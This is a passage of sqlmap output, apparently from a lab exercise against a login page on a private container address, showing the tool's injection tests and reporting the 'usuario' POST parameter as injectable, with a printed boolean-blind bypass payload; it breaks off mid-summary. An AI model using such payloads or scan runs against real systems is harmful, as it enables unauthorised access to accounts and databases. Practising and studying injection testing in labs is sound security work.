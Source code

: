 ```
[11:41:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[11:41:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
got a 302 redirect to 'http://172.17.0.2/login_page/home.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[11:41:01] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[11:41:01] [INFO] POST parameter 'usuario' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --string="DE")
[11:41:01] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[11:41:01] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[11:41:01] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[11:41:01] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[11:41:01] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[11:41:01] [INFO] POST parameter 'usuario' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[11:41:01] [INFO] testing 'MySQL inline queries'
[11:41:01] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[11:41:01] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[11:41:01] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[11:41:01] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[11:41:01] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[11:41:01] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[11:41:01] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:41:11] [INFO] POST parameter 'usuario' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[11:41:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:41:11] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[11:41:11] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:41:11] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:41:11] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[11:41:11] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[11:41:11] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[11:41:11] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[11:41:11] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[11:41:11] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[11:41:11] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[11:41:12] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[11:41:12] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[11:41:12] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[11:41:12] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[11:41:12] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'usuario' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 350 HTTP(s) requests:
---
Parameter: usuario (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: usuario=admin' OR NOT 8838=8838#&contrase%C3%B1a=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
```